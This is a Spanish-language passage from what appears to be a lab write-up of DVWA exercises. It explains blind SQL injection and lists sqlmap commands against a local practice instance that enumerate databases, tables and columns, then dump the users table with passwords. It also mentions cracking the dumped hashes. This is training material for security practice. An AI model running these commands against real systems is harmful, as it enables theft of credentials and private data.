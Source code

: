 Esta variante de SQLi se caracteriza porque la consulta no devuelve información en la respuesta del servidor, pero el resultado de la consulta puede deducirse mediante diferentes técnicas como por ejemplo añadir delays a las consultas cuando son correctas (Si la primera letra del nombre de la primera base de datos es una "A", espere 10 segundos).

Para explotar esta vulnerabilidad usaré la herramienta sqlmap, igual de válida en todas las dificultades:

```
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" -cookie="security=low; PHPSESSID=ei2b9c1t64fj59703e70k51kd2" -dbs                          // listar bases de datos
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" -cookie="security=low; PHPSESSID=ei2b9c1t64fj59703e70k51kd2" -D dvwa -tables               // listar tablas
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" -cookie="security=low; PHPSESSID=ei2b9c1t64fj59703e70k51kd2" -D dvwa -T users --column     // columnas de la tabla users
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" -cookie="security=low; PHPSESSID=ei2b9c1t64fj59703e70k51kd2" -D dvwa -T users --dump       // dumpear tabla entera
cat '/home/grail/.local/share/sqlmap/output/127.0.0.1/dump/dvwa/users.csv' | column -t -s "," -o "|"
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" -cookie="security=low; PHPSESSID=ei2b9c1t64fj59703e70k51kd2" -D dvwa -T users -C user_id,user,password --dump
    // solo algunos campos
```

Esta herramienta es tan potente que permite incluso detectar y crackear los hashes dumpeados de las contraseñas almacenadas en la bsae de datos:

![SQLi blind](https://github.com/sapellaniz/dvwa/blob/master/img/sqli-04.png)



# Weak Session IDs

![Weak session ids](https://github.com/sapellaniz/dvwa/blob/master/img/weak-session-id-00.png)
